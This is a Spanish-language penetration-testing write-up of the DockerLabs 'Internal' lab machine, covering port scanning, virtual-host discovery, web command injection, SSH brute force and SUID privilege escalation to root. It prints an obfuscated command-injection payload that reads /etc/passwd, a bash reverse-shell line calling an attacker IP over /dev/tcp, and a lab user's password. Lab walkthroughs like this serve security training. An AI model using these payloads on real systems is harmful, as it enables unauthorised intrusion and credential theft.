




# 🧠 Informe de Pentesting – Máquina: Internal

### 💡 Dificultad: Fácil

### 📦 Plataforma: DockerLabs


---

# 🚀 1. Despliegue del Entorno

El primer paso consiste en desplegar la máquina vulnerable proporcionada por la plataforma. Para ello, se descomprime el archivo entregado y posteriormente se ejecuta el script de despliegue automático.

## 📦 Descompresión del laboratorio

```bash
unzip internal.zip
```

## ⚙️ Despliegue del contenedor

```bash
sudo bash auto_deploy.sh internal.tar
```

Este script inicializa el entorno Docker con la máquina objetivo, asignándole una dirección IP interna accesible desde el host atacante.


---

# 📶 2. Comprobación de Conectividad

Antes de comenzar con la fase de reconocimiento, se verifica la conectividad hacia la máquina víctima mediante una petición ICMP.

```bash
ping -c1 172.17.0.2
```

La máquina responde correctamente, confirmando que el host se encuentra activo y accesible dentro del entorno Docker.


---

# 🔍 3. Reconocimiento y Escaneo de Puertos

## 📡 Escaneo completo de puertos TCP

Se realiza un escaneo agresivo sobre todos los puertos TCP para identificar servicios expuestos.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

## 📌 Resultados obtenidos

Se identifican dos servicios expuestos:

* **22/tcp → SSH (OpenSSH)**
* **80/tcp → HTTP (Apache)**

Esto indica que la superficie de ataque inicial está compuesta por un servicio web y un servicio de acceso remoto.

---

## 🧩 Enumeración de Servicios y Versiones

Se realiza un análisis más detallado de los servicios descubiertos.

```bash
nmap -sCV -p22,80 172.17.0.2
```

Este escaneo permite identificar versiones, configuraciones y posibles vectores de enumeración adicionales.


---

# 🌐 4. Enumeración Web

Accedemos inicialmente al servicio HTTP:

```bash
http://172.17.0.2
```

La página indica la existencia de un dominio interno:

```text
internal.dl
```

Por ello, se agrega manualmente al archivo `/etc/hosts`.

```bash
nano /etc/hosts
```

Añadimos:

```text
172.17.0.2 internal.dl
```


Al acceder nuevamente al sitio web encontramos la página principal:


Tras realizar fuzzing de directorios sin resultados relevantes, se procede con enumeración de hosts virtuales.

## 🔎 Descubrimiento de Subdominios

Se ejecuta Gobuster en modo virtual host:

```bash
gobuster vhost --append-domain -u http://internal.dl/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -k --exclude-length 154
```


Se descubre el siguiente subdominio:

```text
backup.internal.dl
```

Se agrega también al archivo hosts:

```bash
nano /etc/hosts
```

```text
172.17.0.2 internal.dl backup.internal.dl
```


Ahora podemos acceder al nuevo sitio:


Durante la interacción con la aplicación se identifica una funcionalidad vulnerable que permite ejecutar comandos.

---

## ⚠️ Explotación de la Vulnerabilidad Web

Realizando pruebas de inyección de comandos se consigue visualizar el contenido de `/etc/passwd`.

Payload utilizado:

```bash
/etc/passwd$(c''a''t /etc/passwd)
```

Esto devuelve información sensible del sistema.


Usuario identificado:

```text
vault
```

---

# 🖥️ 5. Obtención de Shell Inicial

En la máquina atacante se inicia un listener con Netcat:

```bash
sudo nc -lvn 445
```

Posteriormente se ejecuta un payload de reverse shell:

```bash
/home $(bash ''h -c "bash''h -i <& /dev/tcp/192.168.0.100/445 0>&1")
```

Se obtiene acceso interactivo a la máquina víctima.



---

# 🔑 6. Movimiento Lateral / Acceso SSH

Durante la enumeración local se identifica un archivo dentro del directorio:

```text
/opt/
```

El archivo contiene una lista potencial de contraseñas. Se copia su contenido a la máquina atacante y se almacena en:

```text
contraseñas.txt
```

Posteriormente se realiza fuerza bruta contra SSH utilizando el usuario descubierto anteriormente.

```bash
hydra -l vault -P contraseñas.txt ssh://172.17.0.2
```



Credenciales encontradas:

```text
vault:Yk8$pZ5@cN4!
```



Con estas credenciales se accede mediante SSH:

```bash
ssh vault@172.17.0.2
```

---

# 🔺 7. Escalada de Privilegios

Una vez dentro del sistema con acceso SSH, se inicia la enumeración local buscando mecanismos de elevación.

## 🔍 Enumeración de binarios SUID

Se buscan archivos con permisos SUID.

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

Entre los binarios encontrados destaca:

```text
/usr/local/bin/vaultctl
```

Observamos:

```bash
-rwsr-xr-x 1 root vault 16136 Feb 25 15:00 /usr/local/bin/vaultctl
```

Análisis:

* El archivo pertenece a **root**
* Posee permisos **SUID**
* Puede ser ejecutado por el usuario comprometido
* Está ubicado fuera de binarios estándar del sistema

---

## ⚙️ Explotación del Binario SUID

Ejecutamos el binario:

```bash
/usr/local/bin/vaultctl
```

Comprobamos privilegios:

```bash
whoami
```

Salida:

```text
root
```

Esto indica que el binario fue configurado incorrectamente y permite elevar privilegios directamente.

---

## 🎯 Explicación Técnica

El bit **SUID (Set User ID)** provoca que el binario se ejecute con los permisos efectivos del propietario del archivo.

Proceso seguido:

1. Se compromete el usuario `vault`
2. Se enumeran binarios SUID
3. Se identifica `vaultctl`
4. El binario se ejecuta con privilegios de root
5. Se obtiene una shell privilegiada

Esto provoca una **escalada vertical de privilegios exitosa**.

---

## ✅ Verificación Final

Verificamos nuevamente el usuario efectivo:

```bash
whoami
```

Resultado:

```text
root
```



---
